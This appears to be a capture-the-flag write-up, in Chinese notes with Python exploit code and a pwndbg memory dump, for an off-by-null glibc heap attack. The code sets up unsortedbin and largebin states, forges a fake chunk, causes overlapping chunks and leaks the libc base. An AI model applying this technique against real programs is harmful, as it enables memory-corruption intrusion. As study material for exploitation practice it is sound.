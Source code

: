 1. 由于off by null的存在，创造的chunk必以0字节结尾导致无法泄露内存，所以要需要使两个堆指针指向同一个chunk，利用其中一个指针释放chunk，另一个指针泄露libc，所以该chunk必须属于unsortedbin大小
2. 需要一开始分配这个chunk，然后再通过改写使其进入unsortedbin：将这个chunk和前一个chunk合并，前一个chunk通过向后合并的方式，
3. 
4. 申请对应chunk
5. 将0，3，6放入unsortedbin中，0->3->6
6. 2，3合并，3的fd和bk依旧是指向原来的chunk
7. 将23号chunk分出0x458大小chunk，将0，6放置到largebin中，并在0x430和处伪造了一个，在使用中的fakechunk，3的size被改为0x551
8. 先将剩余的23分配，然后将0，6分配
9. 将0和23（reminderchunk）释放再分配，使得0字节覆盖掉0的bk指针的低字节0x20，指向fake chunk
10. 再依次释放：23（reminderchunk）->6->5,使5向后合并6从而保留6的指针
11. 从56中分配：分配时使23（reminderchunk）进入largebin	分配56（reminderchunk）	分配23（reminderchunk）
12. 通过释放再分配4，改写56的presize，使得56的pre指向fakechunk
13. 释放56，堆重叠

```
# 1
add(0x418) #0 A = P->fd
add(0x108 - 0x20) #1 barrier
add(0x438) #2 B0 helper
add(0x438) #3 C0 = P , P&0xff = 0
add(0x108) #4 barrier
add(0x488) # H0. helper for write bk->fd. vitcim chunk.
add(0x428) # 6 D = P->bk
add(0x108) # 7 barrier

# 2 use unsortedbin to set p->fd =A , p->bk=D
delete(0) # A
delete(3) # C0
delete(6) # D

# 3 unsortedbin: D-C0-A   C0->FD=A
delete(2) # merge B0 with C0. preserve p->fd p->bk

# 4
add(0x458, b'\x00'*0x438 + p64(0x551)[:-2])  # put A,D into largebin, split BC. use B1 to set p->size=0x551

# 5 recovery
add(0x418)  # C1 from ub
add(0x428)  # bk  D  from largebin
add(0x418)  # fd    A from largein

# 6 use unsortedbin to set fd->bk
# partial overwrite fd -> bk 
delete(6) # A=P->fd
delete(2) # C1
# unsortedbin: C1-A ,   A->BK = C1
add(0x418, p64(0))  # 2 partial overwrite bk    A->bk = p  0	2
add(0x418)		# 23 rem	6

# 7
delete(6) # A=P->fd
delete(3) # C1
delete(5)

# 8
add(0x4f8, b'\x00'*0x490)
add(0x3b0)
add(0x418)

# 9
delete(4)
add(0x108,b'\x00'*0x100 + p64(0x550))

# 10
delete(3)

# 11
add(0x10)
add(0x10) # index 6 - 8
add(0x3f8)
show(4)
libc_base = l64() - 0x219ce0
```

```
pwndbg> x/20gx 0x55976a5e32b0+0x950                                                                                                                                                                                                                                                                                   
0x55976a5e3c00: 0x0000000000000000      0x0000000000000a51
0x55976a5e3c10: 0x00007fd5f0e19ce0      0x00007fd5f0e19ce0
0x55976a5e3c20: 0x0000000000000000      0x0000000000000000
0x55976a5e3c30: 0x00007fd5f0e10061      0x00007fd5f0e1a0d0
0x55976a5e3c40: 0x000055976a5e3c20      0x000055976a5e3c20
0x55976a5e3c50: 0x0000000000000000      0x0000000000000000
0x55976a5e3c60: 0x0000000000000000      0x0000000000000000
0x55976a5e3c70: 0x0000000000000000      0x0000000000000000
0x55976a5e3c80: 0x0000000000000000      0x0000000000000000
0x55976a5e3c90: 0x0000000000000000      0x0000000000000000

```

